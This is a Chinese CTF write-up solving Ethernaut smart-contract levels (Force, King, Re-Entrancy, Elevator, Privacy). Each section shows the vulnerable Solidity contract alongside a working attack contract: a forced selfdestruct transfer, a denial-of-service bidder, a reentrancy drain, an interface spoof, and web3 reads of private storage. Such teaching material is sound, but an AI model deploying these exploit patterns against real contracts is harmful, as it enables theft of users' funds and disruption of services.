



# Ethernaut靶场刷题记录(7-12)
    author: 甘赞栩

## 07 Force
这道题是为了考查我们对自毁函数`selfdestruct`的认识
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
这就是一个空合约，题目想要我们给这个合约转一笔账，可我们知道，一个没有任何函数的合约是没有办法接收转账的。者就用到了自毁函数`selfdestruct`
>自毁函数selfdestruct：
    当我们调用这个函数时，它会使合约无效化并删除该地址的字节码，然后它会把合约里剩余的资金发送给参数指定的地址，比较特殊的是这笔资金的发送将无视合约的fallback函数。（因为之前提到，如果合约收到一笔没有任何函数可以处理的资金时，就会调用fallback函数，而selfdestruct函数无视这一点，也就是资金会优先由selfdestruct函数处理）

我们只需要自己写一个新合约，往里面存一点测试币，然后调用自毁函数`selfdestruct`将参数设置为此合约的地址，我们合约里的token
就会转到此合约当中。<br/>
攻击合约如下：
```
pragma solidity ^0.6.0;


contract Attck{


receive() payable external{

}
function dosome() public payable{
    selfdestruct(0x0F8AaD423dc5aE12382CEc67412dADb6e2b0eFF3);//Force的地址
}
}
```


* 解题步骤
1. 直接使用metamask给我自己的攻击合约转账

2. 执行攻击合约的dosome函数
3. 通关

# 09 King
这是一个Dos攻击（拒绝服务）型的漏洞
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```
这是一个类似于拍卖的合约
题目的意思其实就是说让我们在成功报价后，想办法让别人无法对你的报价再进行竞拍。因为刚好前两天才系统性的了解了拒绝服务DDOS攻击，这道题就变得很容易。
>因为这个竞拍合约需要向上一个竞拍者转账后才能完成竞拍成功（完成king的交换），那我们不让他转账成功不就可以永远不被替换了嘛，需要我们创建一个攻击合约，而此合约需要fallable和receive函数不能设置为payable，
```
pragma solidity ^0.6.0;

contract AttackKing {

    constructor(address payable _victim) public payable {
        _victim.call.gas(1000000).value(msg.value)("");
    }

```
在此攻击合约中我们不写任何receive fallback函数，那么默认就是没有payable修饰的，自然也就接收不了转账。当然，也可以在receive中用revert()语句去终止交易。
* 解题步骤
1. 先用`web3.eth.getStorageAt('0x2814Cd87DdF364D7A5Ef9BAC507fdad131956647',1)`查看一下当前竞拍值是多少

在这里可以看到是0.001ether，那么我们就需要提供大于0.001ether的报价才能成为king
2. 在创建攻击合约时，同时存0.0011个ether进去(如果你测试币多的话直接传1ether就行)

3. 通关

## 10 Re-Entrancy
顾名思义，这是一个重入漏洞
先看代码：
```
pragma solidity ^0.6.0;

import '@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
我们可以注意到withdraw函数里面很明显是存在重入漏洞的，（在更改全局变量之前进行了外部调用）于是我们利用这个漏洞写出攻击合约：
```
pragma solidity ^0.6.0;

contract attack {

    address payable target;
    uint amount = 1000000000000000 wei;

    constructor(address payable _addr) public payable {
        target=_addr;
    }

    function step1() public payable{
        target.call{value: amount}(abi.encodeWithSignature("donate(address)",address(this)));
    }

    function setp2() public payable {
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }


    fallback () external payable{
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }

}
```
注意第一步第二步最好分开写，否则可能造成交易超过gas limit的上限导致执行失败
* 解题步骤
按照step1，2执行即可

可以看到原合约已经没有token了。而我们的账户有了很多，攻击成功。


# 11 Elevator
这道题其实考的是编程时的一个逻辑漏洞
先看代码
```
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
题目想要我们到达顶层，也就是把`top`变为true，但是我们明显能看到想要进入`goTo(uint)`中的判断条件，`building.isLastFloor(_floor)`就必须是`false`，`top`也等于这个值，乍一看想要`top=true`好像是个不可能的事。但由于`Building`是个接口，而`isLastFloor`则是一个抽象函数，这里`Building(msg.sender)`远程调用我们传入的合约，因此我们可以自己设计这个函数的具体内容。
>其实在这里两次调用了` building.isLastFloor(floor)`，他们的返回值一定是一样的吗？既然我们可以自定义函数，我们就可以在函数里面做一些变动让判断条件在第二次调用时，返回相反的值。

攻击合约：
```
pragma solidity ^0.6.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract MyBuilding{
    uint temp = 5;
    Elevator e;
    function isLastFloor(uint i) external returns (bool){
        if(temp == i){
            temp = 6;
            return false;
        }else{
            return true;
        }
    }

    function dosome() public{
        address adr = 0xd8b4056b73Cd9E7890a32548cEAd96D6116B52ae;//Elevator地址
        e = Elevator(adr);
        // adr.call(abi.encodeWithSignature("goTo(uint256)",5));
        e.goTo(5);
    }
}
```
可以看到，在第一次调用之后我就把temp的值变了，那么第二次再进行判断时，就会返回true。

* 解题步骤
执行dosome()即可

## 12 Privacy
这个题和前面08 Vault几乎一样，实质就是告诉我们以太坊中的储存，就算是private修饰，他也是可以被访问到的，比如用web3脚本
`web3.eth.getStorageAt()`就可以轻松访问到。
先看代码
```
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```
我们只要获得key就可以通关，也就是合约中的`data`,
直接获取即可。
* 解题步骤
  1. 用`web3.eth.getStorageAt('0xe1442525366a0cC8e2D25E480B0ACf47FE291Ecc',5)`得到data
  
  2. 然后由于require中的判断是去前16个byte，去前32位执行unlock方法即可
  